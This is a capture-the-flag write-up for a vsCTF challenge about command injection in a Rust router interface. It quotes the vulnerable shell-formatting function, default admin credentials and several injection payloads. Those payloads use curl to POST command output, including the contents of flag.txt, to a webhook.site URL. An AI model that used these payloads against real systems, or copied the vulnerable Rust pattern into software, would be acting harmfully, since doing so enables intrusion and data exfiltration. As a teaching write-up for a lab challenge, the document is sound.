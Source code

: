 ```yaml
---
created: 2024-06-15T04:41
updated: 2024-06-15T19:09
---
```


> We are developing a new router but not sure if the interface has bug or not. Could you have a look?

Simple source digging gives us the username and password.

```
Username: admin
Password: 123456 (md5=e10adc3949ba59abbe56e057f20f883e)
```

```rust
fn save_properties_to_file(){
    unsafe{
        let cmd = format!("echo \"{ESSID}\\n{BAND}\\n{CHANNEL}\\n{WIFI_PASSWORD}\" > /tmp/{ID}.conf");
        Command::new("/bin/sh")
                        .arg("-c")
                        .arg(cmd)
                        .output()
                        .expect("Failed to execute command");
    }
}
```

It is simple formatting. *face palms*

Changing passwords has no verification.

Payload will be `"; CMD; echo "`, probably not the shortest but it will do the trick.

I will also send all results via curl to webhook.site.

```
"; curl -X POST -d "$(ls -la)" https://webhook.site/90de7544-e0ce-4e71-a263-c9613287c858; echo "
```

`ls` didn't find anything, maybe its some flag.txt thing.

```
"; curl -X POST -d "$(find / -type f -name "*flag*")" https://webhook.site/90de7544-e0ce-4e71-a263-c9613287c858; echo "
```

And there it is.

```
/proc/sys/kernel/acpi_video_flags
/proc/sys/net/ipv4/fib_notify_on_flag_change
/proc/sys/net/ipv6/fib_notify_on_flag_change
/proc/kpageflags
/home/user/flag.txt
/usr/lib/x86_64-linux-gnu/perl/5.34.0/bits/waitflags.ph
/usr/lib/x86_64-linux-gnu/perl/5.34.0/bits/ss_flags.ph
/sys/devices/pnp0/00:05/tty/ttyS2/flags
/sys/devices/pnp0/00:03/tty/ttyS0/flags
/sys/devices/pnp0/00:06/tty/ttyS3/flags
/sys/devices/pnp0/00:04/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
```

One last step from `/home/user/flag.txt`

```
"; curl -X POST -d "$(cat /home/user/flag.txt)" https://webhook.site/90de7544-e0ce-4e71-a263-c9613287c858; echo "
```

```
vsctf{1s_1t_tru3_wh3n_rust_h4s_c0mm4nd_1nj3ct10n!??}
```
